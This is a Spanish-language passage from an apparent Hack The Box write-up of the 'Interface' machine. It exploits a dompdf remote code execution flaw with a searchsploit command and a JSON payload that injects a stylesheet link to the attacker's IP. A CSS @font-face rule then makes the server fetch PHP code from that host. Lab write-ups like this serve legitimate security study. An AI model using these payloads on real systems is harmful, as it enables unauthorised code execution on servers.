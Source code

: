 ```null
searchsploit -m php/webapps/51270.py .
mv 51270.py exploit.py
```

En este [artículo](https://positive.security/blog/dompdf-rce) se pueden ver más detalles de en que consiste. Envío desde ```BurpSuite``` el siguiente payload, y recibo una petición por ```GET``` a mi equipo

```null
{"html": "Test<link rel=stylesheet href='http://10.10.16.21/test.css'>"}
```

Este archivo CSS va a tratar de insertar una fuente, la cual contiene código en PHP

```null
@font-face {
   font-family:'TestFont';
   src:url('http://10.10.16.21/test_font.php');
   font-weight:'normal';
   font-style:'normal';
 }
```

Pero tiene que estar representado de cierta forma para que lo interprete

<img src="/writeups/assets/img/Interface-htb/5.png" alt="">

Es probable que los nombres de los archivos se queden cacheados y haya que cambiarlos. En mi caso, tuve que renombrarlos varias veces hasta conseguir RCE. El fichero PHP se almacena en una ruta tomando el hash MD5 de donde se extrajo
